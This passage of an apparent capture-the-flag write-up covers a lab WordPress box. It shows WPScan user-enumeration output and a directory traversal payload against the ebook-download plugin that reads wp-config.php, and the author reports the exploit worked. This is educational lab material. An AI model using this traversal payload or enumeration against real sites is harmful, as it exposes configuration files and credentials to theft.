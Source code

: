 ```terminal

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://backdoor.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection) 

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Dec 12 18:23:38 2024
[+] Requests Done: 13
[+] Cached Requests: 47
[+] Data Sent: 3.381 KB
[+] Data Received: 10.212 KB
[+] Memory used: 270.434 MB
[+] Elapsed time: 00:00:05
```

I scanned for users and plugins, we found user admin but no plugins.

Let's check the plugins directory at `http://backdoor.htb/wp-content/plugins/`

![plugins](3.png)

We found a plugin called `ebood-download`.

A quick search on google reveals a [directory traversal vulnerability](https://www.exploit-db.com/exploits/39575) in this plugin.

```poc
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

Let's use burp to exploit the vulnerability.

![burp](4.png)

The exploit worked and we managed to read the wp-config file. Unfortunately the password there doesn't work on the login page.

